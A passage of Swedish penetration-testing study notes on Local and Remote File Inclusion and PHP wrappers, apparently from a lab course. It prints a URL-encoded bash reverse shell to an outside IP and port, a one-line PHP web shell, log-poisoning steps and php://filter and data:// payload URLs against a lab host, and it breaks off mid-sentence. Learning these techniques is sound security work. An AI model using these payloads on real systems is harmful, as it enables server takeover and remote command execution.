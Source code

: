 
-------------------

### Local File Inclusion (LFI)
- Nyttjar lokala resurser, alternativt genererade (poisonade) loggar till att exekvera arbiträr kod
- Exempel: tryck in php-kod i user-agent som loggas i access.log: ![Pasted image 20230630161825.png](/img/user/IMAGES/Pasted%20image%2020230630161825.png)
- Exekvera sedan genom traversal directory och ?cmd=XXX

URL-enkodat reverse-shell (byt ut ip och port):
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
OBS:
- Om webshell inte funkar, testa olika php-funktioner:
	- system()
	- passthru()
	- exec()

---------------

### Remote File Inclusion (RFI)
- Ovanligare än LFI

- GET request hämtar malicious fil från python server lokalt genom en parameter i urlen
- ![Pasted image 20230627150454.png](/img/user/IMAGES/Pasted%20image%2020230627150454.png)
- Funkar bara om allow_url_fopen och allow_url_include är på i phpinfo()
- Kan använda loggfiler om inte kommer åt annat genom att generera logg och exekvera den

Innan kör webbshell kör phpinfo(); för att se versionering och disablade funktioner:
![Pasted image 20230627150709.png](/img/user/IMAGES/Pasted%20image%2020230627150709.png)

Köra kod på lokal maskin genom system i php:
![Pasted image 20230627150908.png](/img/user/IMAGES/Pasted%20image%2020230627150908.png)

Tillåt kommandon genom URLen:
```php
<?php echo system($_GET['cmd']); ?>
```

Bra shells:
https://github.com/swisskyrepo/PayloadsAllTheThings

------------

### PHP Wrappers

- Används för att kontrollera hur förfrågningar ska hanteras.
- Om ser att sida inte skriver ut innehållet av php fil utan exekverar server-side utan avslutad kod bra att testa
- Ex:![Pasted image 20230703133920.png](/img/user/IMAGES/Pasted%20image%2020230703133920.png)

- php://filter/resource=
	- Används för att läsa innehållet i en php-fil utan att lämna den ute eftersom den annars exekveras server-side
	- Kan base64encodea outputen med php://filter/convert.base64-encode/resource=
	- Exempel: 
```
http://mountaindeserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- Om 'allow_url_include' är påslaget kan php inkluderas och exekveras genom en parameter i URLen:
	- data://text/plain,kod
	- Exempel:
```
http://mountaindeserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
```
- För att komma runt filter kan koden maskeras med base64 så här: